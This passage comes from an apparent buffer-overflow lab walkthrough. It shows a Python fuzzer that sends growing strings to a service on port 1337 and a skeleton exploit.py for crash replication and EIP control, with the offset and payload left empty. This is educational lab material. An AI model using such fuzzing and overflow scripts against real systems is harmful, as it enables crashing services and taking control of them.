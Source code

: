 ```
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

#### Run the fuzzer.py script using python:
```
 python3 fuzzer.py
```

#### The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

## Crash Replication & Controlling EIP

#### Create another file on your Kali box called exploit.py with the following contents:
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
